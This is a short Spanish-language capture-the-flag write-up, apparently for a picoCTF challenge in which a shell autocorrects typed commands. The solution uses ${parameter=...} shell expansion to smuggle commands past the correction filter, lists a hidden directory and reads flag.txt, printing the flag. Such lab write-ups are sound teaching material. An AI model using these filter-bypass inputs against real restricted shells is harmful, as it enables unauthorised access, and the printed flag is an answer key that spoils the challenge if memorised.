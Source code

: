 #### - **Descripción** 
¿Los usuarios avanzados no se cansan de cometer errores ortográficos en el shell? ¡Ya no! Presentamos Special, la interfaz de corrección ortográfica para Linux. Ahora, cada palabra está escrita y capitalizada correctamente... ¡automáticamente y en segundo plano! Sea el primero en probar Special en versión beta y no dude en contarnos todo sobre cómo Special agiliza cada proceso de desarrollo al que se enfrenta. Cuando sus compañeros de trabajo vean su increíble interfaz de shell, dígales: Eso es Special (TM)Inicie su instancia para ver los detalles de la conexión.

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

**Pista**
Experimente con diferentes sintaxis de shell

#### - **Solución** 
Special$ ls
Is 
sh: 1: Is: not found
Special$ ls
Is 
sh: 1: Is: not found
Special$ whoami
Whom 
sh: 1: Whom: not found
Special$ pwd
Pod 
sh: 1: Pod: not found
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$ 

picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}